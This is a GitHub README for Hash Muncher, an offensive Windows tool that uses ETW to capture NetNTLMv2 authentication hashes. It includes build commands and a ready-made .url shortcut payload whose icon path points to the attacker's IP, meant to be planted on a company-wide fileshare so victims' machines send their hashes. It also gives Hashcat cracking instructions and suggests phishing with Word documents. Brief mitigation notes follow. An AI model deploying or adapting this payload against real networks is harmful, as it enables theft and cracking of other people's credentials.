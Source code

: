 # Hash Muncher

*Grab NetNTLMv2 hashes using ETW with administrative rights on Windows*

[![GitHub all releases](https://img.shields.io/github/downloads/lkarlslund/hashmuncher/total)](https://github.com/lkarlslund/hashmuncher/releases) ![GitHub Workflow Status](https://img.shields.io/github/actions/workflow/status/lkarlslund/hashmuncher/prerelease.yml?branch=main)

- Requires elevated (administrator) access on Windows 8.1 / Windows 2016 or later
- Uses Event Tracing for Windows (ETW) to get access to raw packet data for SMB authentication packets
- Decodes NTLM message types 2 and 3
- Outputs to stdout or to a file
- Press Ctrl-C to stop processing or use timeout option
- Crack hashes with HashCat using -m 5600

## Getting Hash Muncher

Three different options for getting this up and running

### A) Download auto built binaries from [releases](https://github.com/lkarlslund/hashmuncher/releases)

### B) Build and install on Windows with this Go command
- requires Golang

```bash
go install github.com/lkarlslund/hashmuncher@latest
```

### C) Cross compile the Windows binaries on any Golang supported platforms with PowerShell installed
- requires Golang and PowerShell
  
```powershell
git clone https://github.com/lkarlslund/hashmuncher
cd hashmuncher
./build.ps1
```

## Usage

1) Ensure that Windows Firewall allows "File and Printer Sharing" as Hash Muncher requires the built in SMB service to send recieve the initial request and send response packets to the target.

![](images\2023-05-09-12-02-27.png)

2) In an elevated prompt run Hash Muncher

```bash
hashmuncher.exe [-output filename.txt] [-timeout nnn] [-tracename yourname] [-help]
```

3) Now wait for someone to authenticate against your machine, or plant an URL shortcut on a popular shared fileshare like below.


````
[InternetShortcut]
URL=Munch
WorkingDirectory=MunchMunch
IconFile=\\10.1.2.3\%USERNAME%.icon
IconIndex=1
````

Replace the IP address with your Hach Muncher machine, and save the file to a (company wide) fileshare as 'whatever.url', and watch the hashes come pouring in.

There are other methods mentioned at [Red Team Notes - Forced Authentication](https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication>), and you can probably also get success by mailing everyone a Word document, but it's not stealthy at all.

## Detection

- None that I've seen, but please leave feedback

## Mitigation

- None for the ETW part, this is part of the Windows design says Microsoft
- Use STRONG passwords! Cracking NetNTLMv2 is not fast at all, but with weak passwords it can surely be done.
- Disable NTLM entirely! It probably won't be painless - but see [Farewell NTLM - It is time to disable NTLM](https://www.scip.ch/en/?labs.20210909)

## History

I've been playing with ETW on and off, but once I saw the very cool [research from Nettitude Labs](https://labs.nettitude.com/blog/etwhash-he-who-listens-shall-receive/) I knew I had to make this into an easy to use tool in my favourite language Golang! Nettitude Labs has a working [POC](https://github.com/nettitude/ETWHash) written in C# running under the .Net framework, and might be a better option for you. So I'm not really inventing anything here, just adding this as an alternative.

If you like Windows security stuff you might also like my attack graph tool [Adalanche](https://github.com/lkarlslund/Adalanche)
